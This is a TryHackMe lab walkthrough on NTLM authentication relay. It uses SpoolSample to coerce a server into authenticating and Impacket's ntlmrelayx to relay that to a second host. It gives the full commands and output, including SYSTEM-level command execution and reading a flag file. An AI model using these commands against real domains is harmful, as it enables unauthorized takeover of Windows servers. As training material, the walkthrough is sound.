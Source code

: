 We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the `C:\Tools\` directory on THMWRK1.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.

The first step is to set up the NTLM relay. On our AttackBox, we can use the following:

```shell-session
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead. With the relay listening, we can now coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1, execute the following:

```shell-session
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

Your attacker IP should correspond with your tunX interface for the network. If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.

```shell-session
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   
[...]
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt
